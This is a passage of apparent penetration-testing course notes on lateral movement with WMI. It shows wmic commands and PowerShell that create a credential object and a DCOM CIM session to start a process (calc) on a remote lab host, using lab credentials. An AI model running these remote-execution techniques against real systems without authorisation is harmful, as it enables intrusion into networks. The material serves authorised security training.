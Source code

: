 Historically, wmic has been abused for lateral movement via the command line by specifying the target IP after the **/node:** argument then user and password after the **/user:** and **/password:** keywords, respectively
+ We'll also instruct wmic to launch a calculator instance with the **process call create** keywords
+ We can test the command by connecting as _jeff_ on CLIENT74
+ Usage:
``` PowerShell
wmic /node:<IP> /user:<USER> /password:<PASS> <COMMAND>
```
+ Example:
``` PowerShell
C:\Users\jeff>wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

The WMI job returned the PID of the newly created process and a return value of "0", meaning that the process has been created successfully
+ System processes and services always run in session 0 as part of session isolation, which was introduced in Windows Vista
+ Because the WMI Provider Host is running as a system service, newly created processes through WMI are also spawned in session 0

Translating this attack into PowerShell syntax requires a few extra details
+ We need to create a _PSCredential_ object that will store our session username and password
+ To do that, we will first store the username and password in the respective variables and then secure the password via the **ConvertTo-SecureString** cmdlet
+ Finally, we'll create a new PSCredential object with the given username and **secureString** object
``` PowerShell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

Next, we want to create a _Common Information Model_ (CIM) via the **New-CimSession** cmdlet
+ ll first specify DCOM as the protocol for the WMI session with the **New-CimSessionOption** cmdlet on the first line
+ On the second line, we'll create the new session against our target IP and supply the PSCredential object along with the session options
+ Lastly, we'll define 'calc' as the payload to be executed by WMI
``` PowerShell
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```
